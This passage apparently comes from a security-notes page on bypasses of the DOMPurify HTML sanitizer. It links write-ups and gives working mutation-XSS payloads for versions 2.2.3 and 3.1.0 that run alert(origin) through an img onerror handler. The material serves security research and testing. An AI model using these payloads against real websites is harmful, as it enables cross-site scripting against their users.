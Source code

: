 {% embed url="https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes" %}
Bypasses of versions 3.1.0-3.1.2 using node flattening (credits to [@IcesFont](https://x.com/IcesFont2))
{% endembed %}

{% embed url="https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations" %}
Common misconfigurations in various later versions
{% endembed %}

The latest vulnerable default version that doesn't use deep nesting is 2.2.3 by [@TheGrandPew](https://twitter.com/TheGrandPew) in _dec. 2020_. The following payload will trigger `alert(origin)` when sanitized and put into any regular part of the DOM:

{% code title="DOMPurify 2.2.3 Bypass" overflow="wrap" %}
```html
<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><style><a title="</style><img src onerror=alert(origin)>">
```
{% endcode %}

All versions <= 2.5.2 or <= 3.1.2 are vulnerable by default, here's the payload for **3.1.0** (see the above writeups for variations on later versions):

{% code title="DOMPurify 3.1.0 Bypass" %}
```html
<div*506>
<table>
  <caption>
    <svg>
      <title>
        <table><caption></caption></table>
      </title>
      <style><a id="</style><img src=x onerror=alert(origin)>"></a></style>
    </svg>
  </caption>
</table>
```
{% endcode %}

{% code title="Copyable" %}
```html
```